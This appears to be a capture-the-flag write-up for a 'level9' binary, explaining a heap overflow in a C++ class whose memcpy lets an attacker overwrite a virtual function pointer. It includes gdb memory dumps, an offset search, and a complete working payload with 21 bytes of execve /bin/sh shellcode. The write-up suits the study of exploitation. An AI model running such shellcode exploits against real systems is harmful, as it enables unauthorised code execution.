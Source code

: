 # Shell code in cpp

## Context: 

Main function create a class N *, and lets us write inside at N + 0x4.

Vuln is, funtion setAnnotation() use memcpy to write inside the class, lenght of argv[1], but size of class N is 108.

A the end of the program, main() call a pointer fucntion overwritable.

```c
  (**(code **)*this_00)(this_00,this);
```

if we print the Class inside the heap, we can see it is before another data : 0x08048848 which is a pointer to a N::funtion().

```c
(gdb) x/50xw 0x0804a008
0x804a008:	0x08048848	0x41414141	0x41414141	0x00004141
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a028:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a058:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a068:	0x00000000	0x00000000	0x00000005	0x00000071
0x804a078:	0x08048848	0x00000000	0x00000000	0x00000000
```

```c
0x08048848 -> 0x0804873a -> n::operator+()
```

## Exploit

First lets find the offset for overwrite data:

```c
$eax   : 0x62616163 ("caab"?)
gef➤  pattern offset 0x62616163
[+] Found at offset 108 (little-endian search) likely
```

### Payload :

#### What we need:

- padding : 108
- entry heap class: 0x804a008
- entry buffer: 0x804a00c
- shell address : 0x804a010
- shell code : ```\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80``` (21 bytes)

:warning: The payload begin with an address 4 byte further because, the pointer we overwrited was a **pointer, and he needed to point to another address, not on the shell code. So it point to the start of the buffer, which point to 4 bytes further.

Payload = shell address (entry buffer + 0x4) + shell code + padding - shell addres - shell code + entry buffer

./level9 $(python2.7 -c 'import sys; sys.stdout.write( b"\x10\xa0\x04\x08" + b"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" +  b"\x90" * 83 + b"\x0c\xa0\x04\x08")')
